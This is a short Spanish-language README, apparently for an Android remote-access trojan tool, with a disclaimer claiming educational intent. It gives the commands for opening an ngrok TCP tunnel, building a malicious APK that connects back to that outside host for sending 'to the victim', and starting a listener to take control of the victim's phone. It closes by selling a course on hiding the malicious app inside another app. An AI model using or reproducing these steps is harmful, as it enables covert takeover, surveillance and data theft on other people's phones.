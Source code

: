 **Descarga de responsabilidad** : este software está destinado únicamente a fines educativos. No soy responsable de ningún uso malicioso de la aplicación.

``Para crear el servidor ngrok para tener coneccion a la app maliciosa tienes que tener ngrok y poner el codigo``

"ngrok tcp 4444"

``Para crear el archivo apk malicioso para mandar a la victima el codigo es``

"python3 androTro.py --build -i [tienes que poner la Forwarding de ngrok ejemplo "0.tcp.ngrok.io"] -p 4444 -o [Nombre del apk]"

``Para conectar al telefono de la victima el codigo es``

"python3 androRAT.py --shell -i 0.0.0.0 -p 4444 "

``hay va a cargar la conexion al telefono y cuando conecte para ver las funciones tienes que poner el codigo``

"help"

``Y avas a poder ver todas las funciones``


[SI quieres aprender a ocultar la app maliciosa en otra app para que no parezca una app maliciosa compra el] 
``curso premium de hacking etico``
